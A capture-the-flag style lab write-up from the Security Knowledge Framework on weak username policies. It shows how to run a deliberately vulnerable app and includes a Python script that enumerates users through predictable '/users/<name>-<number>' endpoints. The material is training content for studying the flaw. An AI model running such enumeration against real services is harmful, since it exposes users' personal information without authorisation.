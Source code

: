 # KBID xxx - Weak or Unenforced Username Policy

## Running the app

```
$ sudo docker pull blabla1337/weak-or-unenforced-username-policy
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/weak-or-unenforced-username-policy
```

{% hint style="success" %}

{% endhint %}

Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrast Security](../../.gitbook/assets/contrast-security-logo.jpg)

## Reconnaissance

To test for this vulnerability, we need to enumerate the users of the application and investigate any interesting information we find.

After creating a user and logging in, we can go to the user profile page and observe that our current user information is displayed.

If we open the developer tools and navigate to the network tab, we can see that the user information is loaded from the `/users/<username>-<number>` endpoint.

![Docker image and write-up thanks to Contrast Security](../../.gitbook/assets/weak-or-unenforced-username-policy-user-endpoint.png)

We created a user named `John Doe` with the endpoint `/users/jdoe-1`. When we tried `/users/jdoe-0`, we got information about a different user, indicating that the user ID is incremented by one for each user. This suggests that we can enumerate users.

The `/users/` endpoint returns a list of all users, though it is not used in the application. It is still interesting to see what information is returned.

## Exploitation

We can use a simple script to enumerate the users. The script will use the `/users/` endpoint to get a list of all users, then use the `/users/<username>-<number>` endpoint to get the information of each user. We need to use `name`, `last_name`, and a counter to generate the correct endpoint.

```python
import requests

url = "http://localhost:5000/users/"

r = requests.get(url)
users = r.json()

usernames = []
for user in users:
    name = user["name"]
    last_name = user["lastname"]
    username = name[0].lower() + last_name.lower() + "-"
    temp_l = [user for user in usernames if user.startswith(username)]
    usernames.append(username + str(len(temp_l)))

for username in usernames:
    r = requests.get(url + username)
    print(r.json())
```

> Note: We can also use Burp Intruder to enumerate the users.

## Additional sources

[owasp.org | Testing for Weak or Unenforced Username Policy](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/03-Identity_Management_Testing/05-Testing_for_Weak_or_Unenforced_Username_Policy)
